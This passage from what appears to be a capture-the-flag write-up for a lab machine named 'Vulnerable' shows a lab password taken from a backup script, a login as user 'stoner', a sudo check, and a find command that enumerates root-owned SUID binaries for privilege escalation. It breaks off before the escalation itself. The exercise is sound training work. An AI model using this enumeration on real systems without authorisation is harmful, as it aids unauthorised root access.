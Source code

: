 ~~~
    exit 0
fi
~~~

The backup script discloses the password for the `stoner` user:
* username: `stoner`
* password: `superduperp@$$no1knows`

Answer: `backup`

## #2 - user.txt


Now we can login as `stoner`:

~~~
basterd@Vulnerable:/usr/local$ su - stoner
Password: 
stoner@Vulnerable:~$ whoami
stoner
stoner@Vulnerable:~$ cd 
stoner@Vulnerable:~$ ls -ila
total 16
130093 drwxr-x--- 3 stoner stoner 4096 Aug 22  2019 .
130050 drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
151986 drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
279807 -rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret 
You made it till here, well done.
~~~

Answer: `You made it till here, well done.`

## #3 - What did you exploit to get the privileged user?

Let's list our privileges:

~~~
stoner@Vulnerable:/home$ sudo -l
User stoner may run the following commands on Vulnerable:
    (root) NOPASSWD: /NotThisTime/MessinWithYa
~~~

OK, wrong track. Let's see what executables are owned by root and have the SUID bit set:

~~~
$ find / -user root -perm -4000 -executable -type f 2>/dev/null
/bin/su
/bin/fusermount
/bin/umount
/bin/mount
/bin/ping6
/bin/ping
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/newgidmap
/usr/bin/find
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newuidmap
~~~

